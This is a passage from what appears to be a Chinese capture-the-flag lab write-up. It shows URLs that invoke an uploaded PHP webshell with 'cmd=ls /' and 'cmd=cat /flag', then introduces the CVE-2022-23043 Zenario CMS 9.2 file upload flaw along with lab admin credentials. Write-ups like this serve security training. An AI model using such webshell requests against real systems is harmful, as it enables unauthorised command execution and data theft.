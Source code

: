 ```
http://eci-2ze9clflsbybn7pk9ka3.cloudeci1.ichunqiu.com/assets/myimages/poc.php?cmd=ls%20/
```

![image-20230616111615997](%E9%9D%B6%E5%9C%BA.assets/image-20230616111615997.png)

```
https://eci-2ze9clflsbybn7pk9ka3.cloudeci1.ichunqiu.com/assets/myimages/poc.php?cmd=cat%20/flag
```





![image-20230616111810738](%E9%9D%B6%E5%9C%BA.assets/image-20230616111810738.png)



## CVE-2022-23043 Zenario CMS 9.2 文件上传漏洞

*靶标介绍：*

Zenario CMS 9.2 文件上传漏洞，攻击者可上传webshell执行任意命令。登陆信息：admin/adminqwe12



![image-20230616112351032](%E9%9D%B6%E5%9C%BA.assets/image-20230616112351032.png)